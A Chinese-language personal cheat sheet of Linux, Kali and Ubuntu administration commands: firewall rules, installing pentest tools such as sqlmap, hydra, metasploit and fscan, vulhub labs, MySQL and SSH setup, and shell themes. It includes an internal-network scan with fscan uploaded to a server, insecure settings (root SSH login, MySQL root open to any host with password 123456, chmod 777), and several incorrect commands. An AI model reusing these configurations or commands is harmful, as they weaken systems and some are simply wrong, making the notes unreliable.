  - 
  
  - 
  
  - 


### iptables基本语法

```nginx
# 格式
iptables [-t tbale] command [chain] [rules] [-j target]

# rules可用参数
-p：				# 指定协议，如 -p tcp、-p udp 等。
--dport：	# 指定目标端口号，如 --dport 80。
--sport：	# 指定源端口号，如 --sport 22。
-s：				# 指定源 IP 地址或地址范围，如 -s 192.168.1.0/24。
-d：				# 指定目标 IP 地址或地址范围，如 -d 10.0.0.1。
-i：				# 指定进入防火墙的网络接口，如 -i eth0。
-o：				# 指定离开防火墙的网络接口，如 -o eth1。
-m：				# 使用模块扩展进行更复杂的匹配，如 -m state --state ESTABLISHED,RELATED。
-j：				# 指定要执行的动作，如 ACCEPT、DROP、REJECT 等。			


# target可用参数
ACCEPT：				# 允许数据包通过防火墙。
DROP：					# 丢弃数据包，不给予任何响应。
REJECT：				# 拒绝数据包，并给发送者一个错误消息响应。
LOG：					# 记录数据包的日志信息，通常与其他目标结合使用。
SNAT：					# 源网络地址转换，用于修改数据包的源 IP 地址。
DNAT：					# 目标网络地址转换，用于修改数据包的目标 IP 地址。
MASQUERADE：		# 伪装，一种特殊的 SNAT，用于将内部网络地址转换为外部地址。
REDIRECT：			# 重定向，用于将数据包重定向到指定端口或 IP 地址。
MARK：					# 标记数据包以供其他规则使用
QUEUE：				# 将数据包发送到用户空间的队列，让用户空间程序处理。

# 查看当前所有iptables防火墙规则
iptables -L


# -t：指明使用的表，默认为filter表，可设置：filter、nat、mangle
# chain：指定链，默认指定所有链

# 案例
# 这条命令用于在 INPUT 链中添加一条规则，允许 TCP 协议的流量通过端口 80
# -A INPUT：将规则添加到 INPUT 链
# -p tcp：匹配 TCP 协议的数据包
# --dport 80：匹配目标端口号为 80 的数据包
# -j ACCEPT：对匹配的数据包执行 ACCEPT 操作，即允许通过
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEPT
```

**拒绝域丢弃数据包**

- 拒绝，或返回一个ICMP错误信息
- 丢弃，不返回任何信息


#### iptables对整个规则链操作

```nginx
-A 或 --append：				# 将规则附加到指定链的末尾。
-I 或 --insert：				# 将规则插入到指定链的指定位置。
-D 或 --delete：				# 从指定链中删除指定位置的规则。
-R 或 --replace：				# 替换指定链中指定位置的规则。
-F 或 --flush：					# 清空指定链中的所有规则。
-E 或 --rename-chain：	# 重命名指定链。
-N 或 --new-chain：			# 创建一个新的自定义链。
-X 或 --delete-chain：	# 删除指定链以及其中的所有规则

-L 或 --list：					# 列出指定链中的所有规则。
-P 或 --policy：				# 设置指定链的默认策略（默认动作）。
-E 或 --rename-chain：	# 重命名指定链。
-Z 或 --zero：					# 将指定链中的所有计数器归零。
-S 或 --save：					# 将指定链中的规则以脚本形式显示在终端上。
-C 或 --check：					# 检查指定链中是否存在符合条件的规则。
-h 或 --help：					# 显示帮助信息。
```

**filter表所支持的基本过滤匹配操作**

```nginx
-p 或 --protocol：				# 指定要匹配的协议，如 TCP、UDP、ICMP 等。
-s 或 --source-port：			# 指定源端口号或端口范围进行匹配。
-d 或 --destination-port：# 指定目标端口号或端口范围进行匹配。
-i 或 --in-interface：		# 简便形式，用于指定数据包进入的网络接口进行匹配。
-o 或 --out-interface：		# 简便形式，用于指定数据包离开的网络接口进行匹配。
-m 或 --match：# 使用扩展匹配模块进行高级匹配，如--match tcp用于匹配 TCP 协议相关的规则。
--source：							# 指定源 IP 地址或地址范围进行匹配。
--destination：				# 指定目标 IP 地址或地址范围进行匹配。
--in-interface：				# 指定数据包进入的网络接口进行匹配。
--out-interface：			# 指定数据包离开的网络接口进行匹配。

```


## 特性

### vim缓存

```nginx
# 用户在使用vim进行编辑的时候，以为意外退出时，会在当前目录生成一个备份文件，文件名格式为： .名字.swp
第一次意外退出生成 *.swp
第二次意外退出生成 *.swo
第三次意外退出生成 *.swn
如：.index.php.swp

# 恢复文件
vim -r .index.php.swp
```

### echo

```nginx
# 将hello覆盖添加到test.txt中
echo 'hello' > /home/user/test.txt

# 在test.txt末尾添加hello
echo 'hello' > /home/user/test.txt
```

### sed

```nginx
# 删除文本最后一行内容，
# $表示最后一行
# -i 选项表示直接修改源文件而不是输出到终端。
sed -i '$ d' example.txt

# 删除指定行内容
sed -i '3d' example.txt
```

### 定时计划

```nginx
# 查看当前计划任务
crontab -l

# 删除计划任务
crontab -e

# 查看其他人的定时任务
sudo crontab -u username -l
```


## kali

### 安装多个jdk

```nginx
# jdk存放位置
sudo mkdir -p /usr/local/java 

cp jdk-8u251-linux-x64.tar.gz  /usr/local/java
# 解压
sudo tar xzvf jdk-8u251-linux-x64.tar.gz
# 添加环境变量
sudo vim /etc/profile
	# 最末尾处添加
	JAVA_HOME=/usr/local/java/jdk1.8.0_251 
  PATH=$PATH:$HOME/bin:$JAVA_HOME/bin
  export JAVA_HOME
  export PATH

# 通知系统java的位置
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/local/java/jdk1.8.0_251/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/java/jdk1.8.0_251/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1

# 切换版本命令
	# 切换java版本
  update-alternatives --config java
	# 切换javac版本
  update-alternatives --config javac

# 测试
java -version
```

https://www.cnblogs.com/xiaoyunxiaogang/p/17466406.html

### Typora安装

下载地址：https://typora.io/releases/all

```nginx
# 解压文件
tar -zxvf Typora-linux-arm64-1.5.10.tar.gz
cd bin
sudo cp -ar Typora-linux-arm64 /opt

# 赋予执行权限
sudo chmod 777 -R Typora-linux-arm64

# 添加快捷方式
touch typora.desktop
vim typora.desktop
	# 输入以下内容
  [Desktop Entry]
  Name=Typora
  Exec=/opt/Typora-linux-arm64/Typora
  Type=Application
  Icon=/opt/Typora-linux-arm64/resources/asserts/icon/icon_512x512.png

# 将快捷方式复制到 /usr/share/applications
sudo cp typora.desktop /usr/share/applications/

# 设置Typora为markdown文件默认打开方式
vim ~/.config/mimeapps.list
  [Address Associations]
  text/markdown=typora.desktop
```


### 常规工具安装

```nginx
sudo apt install sqlmap
sudo apt install nmap
sudo apt install hydra
sudo apt install docker
sudo apt install docker-compose
sudo apt install pocsuite3
sudo apt install whatweb
sudo snap install metasploit-framework
sudo apt install masscan
sudo apt install wireshark
sudo apt install aircrack-ng

```


### Mysql安装

```nginx

# 开机启动
chkconfig -add mysqld

# 查看开机启动项
chkconfig --list | grep mysql

# 查看mysql服务
ps -ef | grep mysql 
netstat -nlp

# 关闭
```


### unhide安装

```nginx

```


### busybox安装

> 使用静态链接库执行命令，方便查看隐藏的进程和被替换的命令包

```nginx
wget  https://busybox.net/downloads/busybox-1.31.0.tar.bz2

tar -xjvf busybox-1.31.0.tar.bz2

cd busybox-1.31.0/ 

make defconfig && make install

#  配置busybox环境变量
vi /etc/profile

# 添加
export PATH=/root/busybox-1.31.0/_install/bin:$PATH

# 使其生效
source /etc/profile

# 测试
busybox ls

# 使用
busybox netstat -antpl
```


### msfconsole安装

```nginx
apt-get install curl,wget

curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

chmod 755 msfinstall

# 执行安装脚本：
./msfinstall

# 启动MSF框架： 
msfconsole
```


### 安装docker

```nginx
sudo apt-get update
# 安装必要组件
sudo apt-get install -y apt-transport-https ca-certificates
sudo apt-get install dirmngr

sudo apt-get install docker docker-compose

# 查看是否安装成功
docker --version

# 查看docker是否启动
sudo service docker status
sudo service docker start

# 手动启动docker
sudo dockerd

# 运行镜像
docker run -tid -p 8888:8080 --name assis image-name
```

#### vulhub

```nginx
git clone https://github.com/vulhub/vulhub

# 两行命令启动
# -d 参数让该容器在前台以守护进程的方式运行
docker-compose up -f xxx.yml -d
docker-compose build

# 重新构建镜像的方式构建
docker-compose build --no-cache

# 查看曾经运行的容器
docker ps -a

# 查看正在运行的容器
docker ps

# 删除容器，这里根据name删除
docker rm -f mysql
```

##### mysql

```nginx
# 运行MySQL，并设置root密码
# 这种方式：容器重启后会丢失存储的数据
docker run -d --name mysql -p 3306:3306 -e MYSQL_ROOT_PASSWORD=123456 17813a4238b4

# 将容器中的 mysql 配置文件复制到宿主机中指定路径下，路径你可以根据需要，自行修改
docker cp mysql:/etc/mysql/mysql.conf.d/mysqld.cnf /usr/local/docker/mysql/config
# 将容器中的 mysql 存储目录复制到宿主机中
docker cp mysql:/var/lib/mysql/ /usr/local/docker/mysql/data

# 不会丢失数据文件的方式启动MySQL
docker run -d --name mysql -p 3306:3306 \
-v /usr/local/docker/mysql/config/mysqld.cnf:/etc/mysql/mysql.conf.d/mysqld.cnf \
-v /usr/local/docker/mysql/data/mysql:/var/lib/mysql \
-e MYSQL_ROOT_PASSWORD=123456 \
mysql镜像id
```


### 安装python3.10

==vm虚拟机安装建议拍个快照==

```nginx
# 更新软件包列表
sudo apt update

# 下载源码
wget https://www.python.org/ftp/python/3.10.11/Python-3.10.11.tgz

# 解压缩下载的源代码
tar -xf Python-3.10.11.tgz

# 进入解压缩后的目录
cd Python-3.10.11

# 配置安装选项
./configure --enable-optimizations

# 编译源代码
make -j$(nproc)

# 安装Python 3.10（不能写install，会替换掉原系统的python3）
sudo make altinstall

# 检查
python3.10 --version
python3 --version (默认显示高版本的)
python2 --version

# 全部输出表示三个版本共存成功
```

### 安装Python3.7

```nginx
# 下载安装包
wget https://www.python.org/ftp/python/3.7.0/Python-3.7.0.tgz

tar -zxvf Python-3.7.0.tgz

# 进入解压缩后的目录
cd Python-3.7.0

# 配置安装选项
./configure --enable-optimizations

# 编译源代码
make -j$(nproc)

# 安装Python 3.10（不能写install，会替换掉原系统的python3）
sudo make altinstall

# 检查
python3.10 --version
python3.7 --version
python3 --version (默认显示高版本的)
python2 --version

# 全部输出表示三个版本共存成功
```


### 调整字体显示

```nginx
# 安装面板
sudo apt-get install gnome-tweaks

# 打开面板
gnome-tweaks
```

### 配置clash

```nginx
# 进入root用户
cd /root

# 下载clash
wget https://github.com/Dreamacro/clash/releases/download/v1.16.0/clash-linux-amd64-v1.16.0.gz

# 解压clash
gunzip clash-linux-amd64-v1.16.0.gz

# 把名称变短
mv clash-linux-amd64-v1.16.0.gz clash
# 赋予可执行权限
chmod +x clash

# 测试一下生成config.yaml文件(生成位置：/root/.config/clash/)
/clash -t

# 编辑config.yaml
vim ~/.config/clash/config.yaml

# 打开Windows的clash，到配置模块，选择你的配置右键编辑
# 然后粘贴到linux中的config.yaml中

# 运行
/clash

# 运行胡网页版视图
http://clash.razord.top/#/proxies
# 更换为9090端口，点登录
```


### 设置源

```nginx
sudo vim /etc/apt/sources.list
# 注释官方源

# 中科大Kali镜像源
deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
# 阿里云Kali镜像源
deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
# 清华大学Kali镜像源
deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free

# 更新源
apt-get update

```

### 安装中文输入法

```nginx
# 执行命令安装输入法框架
sudo apt install fcitx fcitx-googlepinyin

# 重启
reboot

# 配置fcitx
搜索框里面搜fcitx


# 删除fcitx
sudo apt-get remove fcitx 
sudo apt-get remove fcitx-module*
sudo apt-get remove fcitx-frontend*
sudo apt-get fcitx* --purge  
# 重启
sudo  reboot 
```


### 用户相关

```nginx
# 第一次登录设置root账号密码（需要先输入一次当前登录账号密码，因为sudo权限）
sudo passwd root

# kali切换root用户
su root
```

### ssh

```nginx
# kali开启ssh22端口服务
vim /etc/ssh/sshd_config
# 找到 #PasswordAuthentication yes  把#的注释去掉
PasswordAuthentication yes
# 将 #PermitRootLogin prohibit-password 修改为：PermitRootLogin yes
PermitRootLogin yes

# 查看ssh服务状态
/etc/init.d/ssh status

# 启动ssh
/etc/init.d/ssh start
```


### searchsploit

> **用于搜索和查找漏洞利用程序和漏洞信息**

```nginx
# 根据linux内核查找漏洞信息
searchsploit Linux 内核
```


### openvpn

```nginx
# kali安装openvpn
wget -O openvpn.sh https://get.vpnsetup.net/ovpn
# 使用默认选项自动安装 OpenVPN。
sudo bash openvpn.sh --auto

# 连接内网
sudo openvpn 0to1.ovnp
```

### fscan工具

用于上传到服务器的下载地址：https://github.com/shadow1ng/fscan/releases/download/1.8.2/fscan_386

```nginx
# Linux 
	# 给文件加权限
	chmod 777 fscan_386
	# 看ip地址
	ifconfig  
	# 运行
./fscan_386 -h 192.168.0.2/24 -o 0vers1eep.txt 
```


### 主题

**主题列表**：https://github.com/ohmyzsh/ohmyzsh/wiki/External-themes

```nginx
# 进入用户目录
cd ~

# 官方主题 
git clone https://github.com/ohmyzsh/ohmyzsh.git ~/.oh-my-zsh
# 备份kali官方主题
cp ~/.zshrc ~/.zshrc.orig
# 覆盖主题
cp ~/.oh-my-zsh/templates/zshrc.zsh-template ~/.zshrc

# 禁用主题自动更新
vim .zshrc
# 最末尾添加
zstyle ':omz:update' mode disabled

# 使用主题
source .zshrc
```

####热情主题

```nginx
# 
# 下载: 
git clone https://github.com/ChesterYue/ohmyzsh-theme-passion
git git@github.com:ChesterYue/ohmyzsh-theme-passion.git
# 覆盖主题:
cp ./ohmyzsh-theme-passion/passion.zsh-theme ~/.oh-my-zsh/themes/passion.zsh-theme
# 修改配置: 
vim ~/.zshrc 
# 找到ZSH_THEME，并修改为如下
ZSH_THEME="passion";

# 这个主题依赖bc命令，bc是一个计算器命令，用于计算时间
sudo apt install bc
# 使用主题
source ~/.zshrc
```

#### Powerlevel10k

```nginx
# gitee
git clone --depth=1 https://gitee.com/romkatv/powerlevel10k.git ~/powerlevel10k
echo 'source ~/powerlevel10k/powerlevel10k.zsh-theme' >>~/.zshrc

# 克隆仓库
git clone --depth=1 https://gitee.com/romkatv/powerlevel10k.git ${ZSH_CUSTOM:-$HOME/.oh-my-zsh/custom}/themes/powerlevel10k

# 设置.zshrc文件
ZSH_THEME="powerlevel10k/powerlevel10k"
```

##### Prezto

```nginx
git clone --recursive https://github.com/sorin-ionescu/prezto.git "${ZDOTDIR:-$HOME}/.zprezto"
```

### 安装字体

```nginx
# 将.ttf文件放入linux中

# 将文件移动到/usr/share/fonts/truetype目录中
sudo mv example.ttf /usr/share/fonts/truetype/

# 刷新字体缓存
fc-cache -f -v

# 检查字体是否已安装成功
fc-list | grep "example"
```


## Ubuntu

### ip查询

```nginx
# 查看本机ip
ip addr show

# 查看当前正在使用的网络接口的 IP 地址
ip addr show | grep "inet\b" | awk '{print $2}' | cut -d/ -f1
```


### nginx

```nginx
# 查看nginx状态
systemctl status nginx

# 重启nginx
sudo systemctl restart nginx
```


### MySQL

```nginx
数据库目录：/var/lib/mysql/
ubuntu下是：/etc/mysql/mysql.conf.d/mysqld.cnf

配置文件：/usr/share/mysql-8.0（命令及配置文件），/etc/mysql（如my.cnf）。

相关命令：/usr/bin（mysqladmin、mysqldump等命令）和/usr/sbin。

启动脚本：/etc/init.d/mysql（启动脚本文件mysql的目录）

# 服务器启动后端口查询
sudo netstat -anp | grep mysql

# 登录MySQL数据库
mysql -u root -p
然后输入密码 root

# 修改root用户密码
alter user 'root'@'localhost' identified with mysql_native_password by '新密码';


# 刷新mysql系统相关权限表
flush privileges;

# mysql 开区远程访问权限
create user 'root'@'%' identified by 'root账户密码';

# 如果上一步失败执行下面两步
grant all on *.* to 'root'@'%';  --赋予root用户权限

alter user 'root'@'%' identified with mysql_native_password by '123456'; 

# 最后刷新权限
flush privileges;
```

#### MySQL服务管理

```nginx
# 查看服务状态
sudo service mysql status

# 停止服务
sudo service mysql stop

# 启动服务
sudo service mysql start

# 重启服务
sudo service mysql restart
```


### 用户相关

```nginx
# Ubuntu切换root用户
sudo passwd root

# Ubuntu未开放root账户登录，修改一下文件可以设置root登录
vim /etc/ssh/sshd.conf

    [SeatDefaults]
		PasswordAuthentication yes
    user-session=ubuntu
    greeter-session=unity-greeter
    greeter-show-manual-login=true    #手工输入登陆系统的用户名和密码
    allow-guest=false    		     #不允许guest登录

# 创建用户
    adduser [perl编写，ubuntu中建议使用]
    useradd	[编写脚本时使用]

    sudo adduser username

    # 	将用户追加到sudo组内
    # 	-a表示追加用户到指定组
    #	-G选项表示不要将用户从其它组中移除。
    sudo usermod -aG sudo username

# 删除用户
    userdel	[脚本中使用]
    deluser	[ubuntu中建议使用，因为其他发行版中没有deluser]

    # deluser仅在指定用户参数时，deluser将删除用户而不删除用户文件
    # 如果你需要用户的家目录和邮件等信息请使用--remove-home选项。
    sudo deluser username
    sudo deluser --remove-home username

# 查看所有用户
cat /etc/passwd

# 只输出用户名命令
cat /etc/passwd |cut -f 1 -d :

# 查看用户总数
cat /etc/passwd | wc -l

# 用户权限解析
admin:x:1000:1000::/home/admin:/bin/bash
username:password:UserID:GroupID:comment:home directory:shell
用户名：密码：用户id：用户所在组id：备注：用户家目录：shell所在命令
```

### ssh

```nginx
# 创建ssh-key
ssh-keygen -t rsa -b 4096 -C "my-email@meathill.com"

# 首先，将你的电脑上的公 key 添加到服务器 ~/.ssh/authorized_keys。
# 接着编辑服务器上的 /etc/ssh/sshd_config，禁用密码登录。
ChallengeResponseAuthentication no
PasswordAuthentication no

#最后重启 ssh 服务：
service ssh restart

 		# 重启 SSH 服务
    /etc/init.d/ssh start 或者 service ssh start

    # 查看SSH服务状态是否正常运行
    /etc/init.d/ssh status 或者 service ssh status
    
    # 设置系统自动启动SSH服务
    update-rc.d ssh enable
    
    # 关闭系统自动启动SSH服务
    update-rc.d ssh disabled 


# 配置ssh
sudo apt-get install openssh-server
sudo apt-get install openssh-client
ps -e |grep ssh
	buntu:~# ps -e | grep ssh
    1918 ?        00:00:00 ssh-agent
    6599 ?        00:00:00 sshd
    
# ssh-server配置文件位于，在这里可以定义SSH的服务端口
/etc/ssh/sshd_config

```

#### 禁止用户远程登录

```nginx
# 禁止某个用户通过ssh进行登录
sudo vi /etc/ssh/sshd_config

# 在这个文件里面的最后一行加上这个
DenyUsers youruser1 youruser2  # Linux系统账户 

# 禁止ROOT用户进行ssh登录
PermitRootLogin No # 修改 #PermitRootLogin yes为这个

# 重启ssh
sudo service sshd restart

```


### 防火墙

```nginx

# 查看防火墙当前状态
sudo ufw status
# 开启防火墙 
sudo ufw enable
# 关闭防火墙
sudo ufw disable

# 开放防火墙端口
sudo ufw allow 3306

# 关闭已经开放的端口
sudo ufw delete allow 80

# 允许来自 10.0.0.0/8 的流量到任何端口。
ufw allow from 10.0.0.0/8 to any

# 阻止来自 10.0.0.0/8 的所有流量
ufw deny from 10.0.0.0/8

# 设置对特定IP开放所有端口：
sudo ufw allow from 192.168.255.255

# 解决获取UbuntuPPA源失败
sudo apt-get install software-properties-common

# 开放端口可被外部访问
/sbin/iptables -I INPUT -p tcp --dport 8080 -j ACCEPT

# 查看进程占用端口
netstat -anp|grep 80
lsof -i:8888	
# 关闭端口占用
kill -9 26993
```

#### mysql重置密码

```nginx
# 进入mysql安装目录
cd /etc/mysql/mysql.conf.d/mysqld.cnf

# 编辑mysqld.cnf文件
vim mysqld.cnf
# 末尾添加
skip-grant-tables

# 重启后msyql服务
service mysqld restart
在ubuntu下需要使用:service msyql stop 和 service mysql start。

# 选择数据库并将密码设置为空
use mysql;
update user set authentication_string = '' where user = 'root';

# 然后去除免密码登录在进入mysql，且不需要输入密码
# 进入后使用语句设置新密码
ALTER USER 'root'@'localhost' IDENTIFIED BY 'shakuang0314';
```

#### mysql创建用户

```nginx
# 其中username为自定义的用户名；host为登录域名，host为'%'时表示为 任意IP，
# 为localhost时表示本机，或者填写指定的IP地址；paasword为密码
create user 'username'@'登录域名' identified by 'password';

# 修改登录域名
create user 'username'@'登录域名' identified by 'password';

# 查看所有用户
select host,user from mysql.user;

# 为用户授权
 grant all privileges on *.* to 'username'@'%' with grant option; 

*.*表示可以访问所有的数据库和所有的表

# 撤销授权
#收回权限(不包含赋权权限)
remove all privileges on *.* from user_name;
remove all privileges on user_name.* from user_name;
#收回赋权权限
remove grant option on *.* from user_name;

UPDATE user SET Password=PASSWORD(‘1234’) where USER=‘root’;
#操作完后重新刷新权限
flush privileges;
```

#### docker安装mysql

```nginx
docker pull mysql:5.7
docker images

# 本地创建mysql的映射目录
mkdir -p /root/mysql/data /root/mysql/logs /root/mysql/conf

# 在/root/mysql/conf中创建 *.cnf 文件
touch my.cnf

# 创建容器,将数据,日志,配置文件映射到本机，并设置root密码
docker run -p 3306:3306 --name mysql -v /root/mysql/conf:/etc/mysql/conf.d -v /root/mysql/logs:/logs -v /root/mysql/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=root -d mysql:5.7

# 启动mysql容器
docker start mysql

# 进入容器
docker exec -it mysql bash
```


### oh my zsh

https://zhuanlan.zhihu.com/p/514636147

```nginx
# 查看一下是否安装了zsh
cat /etc/shells  

# 安装zsh
apt-get install zsh

# 查看默认sh,(也可以看/etc/passwd文件)
echo $SHELL

# 设置为默认sh（需要注销重新登录生效）
chsh -s /bin/zsh

# 下载oh my zsh
sh -c "$(curl -fsSL https://gitee.com/shmhlsy/oh-my-zsh-install.sh/raw/master/install.sh)"

# 安装插件
# 命令行命令键入时的历史命令建议
git clone https://github.com/zsh-users/zsh-autosuggestions ${ZSH_CUSTOM:-~/.oh-my-zsh/custom}/plugins/zsh-autosuggestions
#  命令行语法高亮插件
git clone https://gitee.com/Annihilater/zsh-syntax-highlighting.git ${ZSH_CUSTOM:-~/.oh-my-zsh/custom}/plugins/zsh-syntax-highlighting


# 配置 .zshrc
vim .zshrc

#防止中文乱码
export LC_ALL=en_US.UTF-8
export LANG=en_US.UTF-8
# 设置字体模式以及配置命令行的主题
POWERLEVEL9K_MODE='nerdfont-complete'
ZSH_THEME="agnoster" #我目前使用的模式
#ZSH_THEME="powerlevel9k/powerlevel9k"

# 启动错误命令自动更正
ENABLE_CORRECTION="true"

# 在命令执行的过程中，使用小红点进行提示
COMPLETION_WAITING_DOTS="true"

# 配置要使用的插件
plugins=(
        git
        extract
        zsh-autosuggestions
        zsh-syntax-highlighting
)
source $ZSH/oh-my-zsh.sh
source $ZSH_CUSTOM/plugins/zsh-autosuggestions/zsh-autosuggestions.zsh

# 设置字体
wget https://raw.githubusercontent.com/powerline/powerline/develop/font/10-powerline-symbols.conf
wget https://raw.githubusercontent.com/powerline/powerline/develop/font/PowerlineSymbols.otf
sudo mkdir /usr/share/fonts/OTF
sudo cp 10-powerline-symbols.conf /usr/share/fonts/OTF/ 
sudo mv 10-powerline-symbols.conf /etc/fonts/conf.d/
sudo mv PowerlineSymbols.otf /usr/share/fonts/OTF/
fc-cache -vf  /usr/share/fonts/OTF/  
```


## centOS

### 防火墙

```nginx
# centOs查看防火墙状态
systemctl status firewalld
```


# windows

## window 10


### 小皮面板配置Xdebug

> - 首先下载[phpstrom](https://www.jetbrains.com/phpstorm/download/download-thanks.html)，打开小皮面板，选中好要使用的php版本
>
> - 然后点击【管理】=> 【php扩展】=> 【xdebug】
>
> - 然后打开选中好版本的php位置
>
> - ```nginx
>     D:\Program_Files\phpstudy_pro\Extensions\php\php7.4.3nts
>     ```
>
> - **打开php.ini文件，再末尾修改为下面这种状态**
>
> - ```nginx
>     [Xdebug]
>     ;zend_extension_ts = "D:\phpstudy_pro\Extensions\php\php7.3.4nts\ext\php_xdebug-3.0.4-7.3-vc15-nts-x86_64.dll"
>     zend_extension = xdebug ;指定xdebug，我这里用的是页面提供的
>     xdebug.remote_enable = 1 ;开启调试
>     xdebug.remote_host = "127.0.0.1" ;调试的ip
>     xdebug.remote_port = 9001 ;调试的端口
>     xdebug.remote_autostart=On ;远程调试自动开启
>     xdebug.collect_return=Off ;必须为Off，或者不设定，要不Thinkphp一直死循环在入口index.php
>     xdebug.auto_trace = On ;不知道，不会用，贴过来的
>     xdebug.show_exception_trace = On ;不知道，不会用，贴过来的
>     xdebug.remote_handler = dbgp ;应该是多人调试用的
>     xdebug.idekey = "PHPSTORM" ;调试关键字
>     ```
>
>     
>
> - ```nginx
>     # 初始状态
>     [Xdebug]
>     zend_extension=D:/Program_Files/phpstudy_pro/Extensions/php/php7.4.3nts/ext/php_xdebug.dll
>     xdebug.collect_params=1
>     xdebug.collect_return=1
>     xdebug.auto_trace=Off
>     xdebug.trace_output_dir=D:/Program_Files/phpstudy_pro/Extensions/php_log/php7.4.3nts.xdebug.trace
>     xdebug.profiler_enable=Off
>     xdebug.profiler_output_dir=D:/Program_Files/phpstudy_pro/Extensions/php_log/php7.4.3nts.xdebug.profiler
>     # 这个初始为Off，修改为On
>     xdebug.remote_enable=On
>     xdebug.remote_host=localhost
>     xdebug.remote_port=9000
>     xdebug.remote_handler=dbgp
>     Xdebug.remote_autostart=1
>         
>     # 添加
>     xdebug.idekey="PHPSTORM"
>     ```
>
> - 保存，打开phpstorm
>
>     - 配置好要使用的php版本，**直接指向小皮面版下php版本即可**
